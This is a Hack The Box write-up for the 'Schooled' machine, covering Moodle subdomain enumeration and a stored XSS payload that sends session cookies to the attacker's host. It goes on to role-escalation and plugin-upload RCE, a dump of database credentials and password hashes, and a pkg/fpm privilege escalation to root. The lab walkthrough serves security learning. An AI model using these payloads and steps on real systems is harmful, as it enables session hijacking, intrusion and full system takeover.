


# Schooled

## Gaining Access

Nmap scan:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
```

Did a detailed scan as well:

```
$ nmap -p 80,33060 -sC -sV --min-rate 5000 10.129.155.68          
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-09 22:25 EST
Nmap scan report for 10.129.155.68
Host is up (0.0082s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Schooled - A new kind of educational institute
<OTHER PORT IRRELEVANT>
```

I added `schooled.htb` to the `/etc/hosts` file as per standard HTB practice.

### Web Enum --> Moodle XSS

The website was for an educational institution:


The page was rather static, so I did a directory and subdomain scan. `gobuster` didn't reveal much, but the `wfuzz` subdomain scan shows this:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 20750 -H 'Host: FUZZ.schooled.htb' -u http://schooled.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://schooled.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000162:   200        1 L      5 W        84 Ch       "moodle"
```

Moodle is a open-source learning platform software. 


This is probably an outdated software with some security vulnerabilities, and the box was released back in 2021. Interestingly, there's an entire page on Hacktricks for enumerating this software.



There was a linked scanner on the page:



This allowed me to enumerate the version that was running:

```
Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta
```

On Hacktricks, there seems to be an RCE vulnerability, but that requires `manager` privileges on Moodle. I created an account and logged in to the platform. After logging in, I saw that I could enrol in courses:


There was one announcement in the Mathematics course:


So there's a user checking profiles, and on HTB a user checking a page consistently likely means an XSS exploit is possible. This Github repository contains steps on how to exploit the XSS affecting this version of Moodle:



Here's the payload I used:

```
<script>var i=new Image;i.src="http://10.10.14.23/iamxss?"+document.cookie;</script>
```

This would be entered into the MoodleNet profile.


After a while, a HTTP server would get a request:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.155.68 - - [09/Feb/2024 23:22:34] code 404, message File not found
10.129.155.68 - - [09/Feb/2024 23:22:34] "GET /iamxss?MoodleSession=f9hp6skmrhur9ses97ti8c77u2 HTTP/1.1" 404 -
```

After replacing the cookie, I got access to the 'Manuel Phillips' user, who I presume is the course administrator.


### Teacher --> Manager --> RCE

There was nothing inherently interesting about a teacher's account, however there is one CVE to go from a teacher to the site manager.



I have to 'enrol' myself as the manager, so I headed to the course the user was a teacher for and saw the 'Enrol users' option.


This is the request sent when I enrol someone:

```http
GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=EsKjfhjhR6&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=1&userlist%5B%5D=2&roletoassign=4&startdate=4&duration= HTTP/1.1
Host: moodle.schooled.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
Cookie: MoodleSession=ob247gbg251898euef2hju43tc; MoodleSession=rq7psjscel1rslbh9bi7hgdaiv
```

From this, I cna change the `userlist` parameter to 24 (the current user ID) and change the `roleassign` to 1. The change is reflected on the table:


Using this, I also made the account I control a Manager. There was a new option to Login in as an administrator.



The above was possible because both users are Managers. However, because the user I cerated was a student, it had no privileges. Setting a staff like Lianne Carter to an administrator and then logging in as them allows me to access the Site Administration:


Next, I have to get full privileges over the site, and this can be done using this repo:



The above also includes the file for RCE. To use this, go to Users > Define roles > Manager. Then, just press Save changes to see this massive request:


Keep the `sesskey` variable intact and replace the rest with the payload from the repo. This opens the Plugins directory from the main admin panel:


On the plugin installation page, upload `rce.zip` from the repo:


Then go ahead and install this plugin, and this would allow for rce at `http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id`.


Then, a reverse shell is easy.


## Privilege Escalation

### Database Creds --> User Hash

There were 2 users on this machine:

```
[www@Schooled /usr/local/www/apache24/data/moodle]$ ls /home
jamie
steve
```

There was also a `config.php` file present with database credentials:

```
[www@Schooled /usr/local/www/apache24/data/moodle]$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

This password was not used for any user but I could login to the database to enumerate the user hashes there. I can proceed to enumerate the database:

```
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodle
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 442
Server version: 8.0.23 Source distribution

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

moodle@localhost [moodle]> 
```

Using this, I could view the `mdl_users` table:

```
+----+---------------+-----------+--------------+---------+-----------+------------+-------------------+--------------------------------------------------------------+----------+------------+----------+----------------------------------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+-------------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+--------------+-----------------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+--------------------------------------------------------------------------------------+
| id | auth          | confirmed | policyagreed | deleted | suspended | mnethostid | username          | password                                                     | idnumber | firstname  | lastname | email                                  | emailstop | icq | skype | yahoo | aim | msn | phone1 | phone2 | institution | department | address | city        | country | lang | calendartype | theme | timezone | firstaccess | lastaccess | lastlogin  | currentlogin | lastip       | secret          | picture | url | description                                                               | descriptionformat | mailformat | maildigest | maildisplay | autosubscribe | trackforums | timecreated | timemodified | trustbitmask | imagealt | lastnamephonetic | firstnamephonetic | middlename | alternatename | moodlenetprofile                                                                     |
+----+---------------+-----------+--------------+---------+-----------+------------+-------------------+--------------------------------------------------------------+----------+------------+----------+----------------------------------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+-------------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+--------------+-----------------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+--------------------------------------------------------------------------------------+
|  1 | manual        |         1 |            0 |       0 |         0 |          1 | guest             | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |          | Guest user |          | root@localhost                         |         0 |     |       |       |     |     |        |        |             |            |         |             |         | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     | This user is a special user that allows read-only access to some courses. |                 1 |          1 |          0 |           2 |             1 |           0 |           0 |   1608320077 |            0 | NULL     | NULL             | NULL              | NULL       | NULL          | NULL                                                                                 |
|  2 | manual        |         1 |            0 |       0 |         0 |          1 | admin             | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |          | Jamie      | Borham   | jamie@staff.schooled.htb               |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |  1608320129 | 1608729680 | 1608681411 |   1608729680 | 192.168.1.14 |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           0 |             1 |           0 |           0 |   1608389236 |            0 |          |                  |                   |            |               |                                                                                      |
|  3 | manual        |         1 |            0 |       0 |         0 |          1 | bell_oliver89     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |          | Oliver     | Bell     | bell_oliver89@student.schooled.htb     |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608320808 |   1608320808 |            0 |          |                  |                   |            |               |                                                                                      |
|  4 | manual        |         1 |            0 |       0 |         0 |          1 | orchid_sheila89   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |          | Sheila     | Orchid   | orchid_sheila89@student.schooled.htb   |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608321097 |   1608321097 |            0 |          |                  |                   |            |               |                                                                                      |
|  5 | manual        |         1 |            0 |       0 |         0 |          1 | chard_ellzabeth89 | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |          | Elizabeth  | Chard    | chard_elizabeth89@student.schooled.htb |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608321183 |   1608321183 |            0 |          |                  |                   |            |               |                                                                                      |
|  6 | manual        |         1 |            0 |       0 |         0 |          1 | morris_jake89     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |          | Jake       | Morris   | morris_jake89@student.schooled.htb     |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608380798 |   1608380798 |            0 |          |                  |                   |            |               |                                                                                      |
|  7 | manual        |         1 |            0 |       0 |         0 |          1 | heel_james89      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |          | James      | Heel     | heel_james89@student.schooled.htb      |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608380861 |   1608380861 |            0 |          |                  |                   |            |               |                                                                                      |
|  8 | manual        |         1 |            0 |       0 |         0 |          1 | nash_michael89    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |          | Michael    | Nash     | nash_michael89@student.schooled.htb    |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608380931 |   1608380931 |            0 |          |                  |                   |            |               |                                                                                      |
|  9 | manual        |         1 |            0 |       0 |         0 |          1 | singh_rakesh89    | $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu |          | Rakesh     | Singh    | singh_rakesh89@student.schooled.htb    |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381002 |   1608381002 |            0 |          |                  |                   |            |               |                                                                                      |
| 10 | manual        |         1 |            0 |       0 |         0 |          1 | taint_marcus89    | $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa |          | Marcus     | Taint    | taint_marcus89@student.schooled.htb    |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381073 |   1608381073 |            0 |          |                  |                   |            |               |                                                                                      |
| 11 | manual        |         1 |            0 |       0 |         0 |          1 | walls_shaun89     | $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga |          | Shaun      | Walls    | walls_shaun89@student.schooled.htb     |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381128 |   1608381128 |            0 |          |                  |                   |            |               |                                                                                      |
| 12 | manual        |         1 |            0 |       0 |         0 |          1 | smith_john89      | $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em |          | John       | Smith    | smith_john89@student.schooled.htb      |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381193 |   1608381193 |            0 |          |                  |                   |            |               |                                                                                      |
| 13 | manual        |         1 |            0 |       0 |         0 |          1 | white_jack89      | $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK |          | Jack       | White    | white_jack89@student.schooled.htb      |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381255 |   1608381255 |            0 |          |                  |                   |            |               |                                                                                      |
| 14 | manual        |         1 |            0 |       0 |         0 |          1 | travis_carl89     | $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S |          | Carl       | Travis   | travis_carl89@student.schooled.htb     |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381313 |   1608381313 |            0 |          |                  |                   |            |               |                                                                                      |
| 15 | manual        |         1 |            0 |       0 |         0 |          1 | mac_amy89         | $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i |          | Amy        | Mac      | mac_amy89@student.schooled.htb         |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381361 |   1608381361 |            0 |          |                  |                   |            |               |                                                                                      |
| 16 | manual        |         1 |            0 |       0 |         0 |          1 | james_boris89     | $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq |          | Boris      | James    | james_boris89@student.schooled.htb     |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381410 |   1608381410 |            0 |          |                  |                   |            |               |                                                                                      |
| 17 | manual        |         1 |            0 |       0 |         0 |          1 | pierce_allan      | $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy |          | Allan      | Pierce   | pierce_allan89@student.schooled.htb    |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381478 |   1608381478 |            0 |          |                  |                   |            |               |                                                                                      |
| 18 | manual        |         1 |            0 |       0 |         0 |          1 | henry_william89   | $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu |          | William    | Henry    | henry_william89@student.schooled.htb   |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381530 |   1608381530 |            0 |          |                  |                   |            |               |                                                                                      |
| 19 | manual        |         1 |            0 |       0 |         0 |          1 | harper_zoe89      | $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy |          | Zoe        | Harper   | harper_zoe89@student.schooled.htb      |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381592 |   1608381592 |            0 |          |                  |                   |            |               |                                                                                      |
| 20 | manual        |         1 |            0 |       0 |         0 |          1 | wright_travis89   | $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm |          | Travis     | Wright   | wright_travis89@student.schooled.htb   |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381677 |   1608381677 |            0 |          |                  |                   |            |               |                                                                                      |
| 21 | manual        |         1 |            0 |       0 |         0 |          1 | allen_matthew89   | $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq |          | Matthew    | Allen    | allen_matthew89@student.schooled.htb   |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381732 |   1608381732 |            0 |          |                  |                   |            |               |                                                                                      |
| 22 | manual        |         1 |            0 |       0 |         0 |          1 | sanders_wallis89  | $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u |          | Wallis     | Sanders  | sanders_wallis89@student.schooled.htb  |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608381797 |   1608381797 |            0 |          |                  |                   |            |               |                                                                                      |
| 23 | manual        |         1 |            0 |       0 |         0 |          1 | higgins_jane      | $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2 |          | Jane       | Higgins  | higgins_jane@staff.schooled.htb        |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608382421 |   1608382421 |            0 |          |                  |                   |            |               |                                                                                      |
| 24 | manual        |         1 |            0 |       0 |         0 |          1 | phillips_manuel   | $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG |          | Manuel     | Phillips | phillips_manuel@staff.schooled.htb     |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |  1608681510 | 1707547319 | 1707547194 |   1707547319 | 127.0.0.1    |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608382537 |   1608681490 |            0 |          |                  |                   |            |               |                                                                                      |
| 25 | manual        |         1 |            0 |       0 |         0 |          1 | carter_lianne     | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe |          | Lianne     | Carter   | carter_lianne@staff.schooled.htb       |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              |                 |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1608382633 |   1608382633 |            0 |          |                  |                   |            |               |                                                                                      |
| 26 | email         |         0 |            0 |       0 |         0 |          1 | parker_dan89      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi |          | Dan        | Parker   | parker_dan89@student.schooled.htb      |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |              | 6IwNTLYu1F22aFR |       0 |     | NULL                                                                      |                 1 |          1 |          0 |           2 |             1 |           0 |  1608386568 |   1608386568 |            0 | NULL     |                  |                   |            |               | NULL                                                                                 |
| 27 | onlineconfirm |         1 |            0 |       0 |         0 |          1 | parker_tim89      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S |          | Tim        | Parker   | parker_tim89@student.schooled.htb      |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |  1608386933 | 1608387350 | 1608386933 |   1608387350 | 192.168.1.14 | ea9Xkf0O0ZWzfRh |       0 |     | NULL                                                                      |                 1 |          1 |          0 |           2 |             1 |           0 |  1608386929 |   1608386929 |            0 | NULL     |                  |                   |            |               | NULL                                                                                 |
| 28 | onlineconfirm |         1 |            0 |       0 |         0 |          1 | test12            | $2y$10$o3v7ztcnxKkVIBEREMy6HusGDgYqYerdkW4znFA.Tly9.5xX7/Xuq |          | test       | test     | test12@student.schooled.htb            |         0 |     |       |       |     |     |        |        |             |            |         |             |         | en   | gregorian    |       | 99       |  1707545766 | 1707545988 |          0 |   1707545766 | 10.10.14.23  | mDShCSZeDnav2ZZ |       0 |     | NULL                                                                      |                 1 |          1 |          0 |           0 |             1 |           0 |  1707545765 |   1707545791 |            0 |          |                  |                   |            |               | <script>var i=new Image;i.src="http://10.10.14.23/iamxss?"+document.cookie;</script> |
+----+---------------+-----------+--------------+---------+-----------+------------+-------------------+--------------------------------------------------------------+----------+------------+----------+----------------------------------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+-------------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+--------------+-----------------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+--------------------------------------------------------------------------------------+
```

Massive number of hashes, and since there only `jamie` and `stevie` on the machine, I just cracked the hash for `admin`, since it used the email of `jamie`.

This hash had to be brute forced character by character to give `!QAZ2wsx`, and using this I could `ssh` in as `jamie`:



### Sudo Privileges

This user had some `sudo` privileges:

```
jamie@Schooled:/home $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

GTFOBins has an entry for this particular binary, and it uses `fpm` as well. I ran the commands on my machine to make `/bin/bash` a SUID binary.

```bash
TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

Afterwards, transfer `x-1.0.txz` to the target machine, and install it using `pkg`.


Rooted!